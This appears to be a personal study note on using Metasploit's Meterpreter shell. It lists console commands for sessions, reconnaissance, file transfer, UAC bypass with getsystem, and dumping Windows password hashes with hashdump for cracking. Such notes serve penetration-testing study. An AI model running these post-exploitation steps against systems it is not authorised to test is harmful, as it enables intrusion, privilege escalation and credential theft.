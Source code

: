 
### General Notes

A very powerful shell that can be used to attack machines and install [[Backdoors]].

---
## Usage inside [[Metasploit]] `msfconsole`

###### Two Types of Payloads

- **Bind TCP**: runs a server process on the target and waits for connection from attacker. `bind_tcp`
- **Reverse TCP**: performs a TCP connection back to the attacker machine. Helps evade [[Firewall]]s. `reverse_tcp`

---
### Sessions

After setting the right payload, run the *exploit* to get a session.
- A `meterpreter session` is an advanced shell on a target machine.

> Multiple sessions can be hosted in one `msfconsole` host.

- To go back to the `msfconsole` from the meterpreter session:
```
background
```

- To list all the available sessions
```
sessions -l
```

- To resume a session
```
sessions -i <session-id>
```

---
### Exploitation

- Can perform multiple commands in the meterpreter session to get information about the target machine.
```
ifconfig
route
sysinfo
getuid
shell   //to run the standard os shell on the attacked machine.
...
```

- Can upload and download files
```
download <path-to-file-in-attacked> <destination-path-attacker>
upload <destination-path-attacker> <path-to-file-in-attacked>
```

> For window use `\` and Linux use `/`.

---

### Privilege Escalation

- To raise privileges using a Privilege Escalation routine provided by meterpreter.
```
getsystem
```
> *system* user is the highest privileges in windows machines.

However, the User Account Control (UAC) policy prevents this from happening in modern windows machines.
- To do that, use the `bypassuac` exploit module in [[Metasploit]]. 
```
background  //background the current session.
use exploit/windows/local/bypassuac   //get the bypassuac exploit for windows
show options 
set session <meterpreter session>
```
> This opens a new meterpreter shell session that can use the `getsystem` command.

---

### Dumping Password Database

Saving the password database and cracking it using [[John the Ripper]] for instance.
- Do that using the `hashdump` post-exploit module in [[Metasploit]].
```
background
use post/windows/gather/hashdump
show options
set session <meterpreter session>
exploit // dumps the hashes.
```

---
### Extra Commands

- Shells can be upgraded to meterpreter shells using the `mult/manage/shell_to_meterpreter` module.

- `/tmp` and `/var/tmp` are writeable.

---
